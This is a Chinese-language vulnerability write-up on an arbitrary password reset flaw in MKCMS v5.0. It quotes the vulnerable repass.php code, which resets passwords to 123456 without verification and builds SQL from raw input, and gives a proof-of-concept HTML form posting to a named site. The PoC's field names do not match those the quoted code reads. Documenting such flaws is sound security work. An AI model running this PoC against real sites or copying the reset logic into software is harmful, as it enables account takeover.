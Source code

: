 MKCMS v5.0 任意密码重置漏洞
===========================

一、漏洞简介
------------

二、漏洞影响
------------

MKCMS v5.0

三、复现过程
------------

漏洞出现在`/ucenter/repass.php`第1-44行:

    <?php 
    include('../system/inc.php');
    if(isset($_SESSION['user_name'])){
    header('location:index.php');
    };

    if(isset($_POST['submit'])){
    $username = stripslashes(trim($_POST['name']));
    $email = trim($_POST['email']);
    // 检测用户名是否存在
    $query = mysql_query("select u_id from mkcms_user where u_name='$username' and u_email='$email'");
    if(!! $row = mysql_fetch_array($query)){
    $_data['u_password'] = md5(123456);
    $sql = 'update mkcms_user set '.arrtoupdate($_data).' where u_name="'.$username.'"';
    if (mysql_query($sql)) {

    $token =$row['u_question'];
    include("emailconfig.php");
        //创建$smtp对象 这里面的一个true是表示使用身份验证,否则不使用身份验证.
        $smtp = new Smtp($MailServer, $MailPort, $smtpuser, $smtppass, true); 
        $smtp->debug = false; 
        $mailType = "HTML"; //信件类型，文本:text；网页：HTML
        $email = $email;  //收件人邮箱
        $emailTitle = "".$mkcms_name."用户找回密码"; //邮件主题
        $emailBody = "亲爱的".$username."：<br/>感谢您在我站注册帐号。<br/>您的初始密码为123456<br/>如果此次找回密码请求非你本人所发，请忽略本邮件。<br/><p style='text-align:right'>-------- ".$mkcms_name." 敬上</p>";

        // sendmail方法
        // 参数1是收件人邮箱
        // 参数2是发件人邮箱
        // 参数3是主题（标题）
        // 参数4是邮件主题（标题）
        // 参数4是邮件内容  参数是内容类型文本:text 网页:HTML
        $rs = $smtp->sendmail($email, $smtpMail, $emailTitle, $emailBody, $mailType);
    if($rs==true){
    echo '<script>alert("请登录到您的邮箱查看您的密码！");window.history.go(-1);</script>';
    }else{
    echo "找回密码失败";
    }

    }
    }
    }

    ?>

本质上来说此处是一个逻辑问题，程序未通过邮箱等验证是否为用户本身就直接先在第13-14行把用户密码重置为`123456`了，根本没管邮件发送成功没有。

![](./resource/MKCMSv5.0任意密码重置漏洞/media/rId24.jpg)

### poc

> 构造如下poc.html,并访问poc.html，然后用123456密码登录即可

    <html>
      <body>
      <script>history.pushState('', '', '/')</script>
        <form action="http://v.micool.top/ucenter/repass.php" method="POST">
          <input type="hidden" name="u&#95;name" value="lduo123" />
          <input type="hidden" name="u&#95;email" value="admin&#64;gmail&#46;com" />
          <input type="submit" value="Submit request" />
        </form>                         
      </body>
    </html>

参考链接
--------

> https://xz.aliyun.com/t/4189\#toc-1
>
> https://cisk123456.blogspot.com/2019/04/mkcms-v50.html
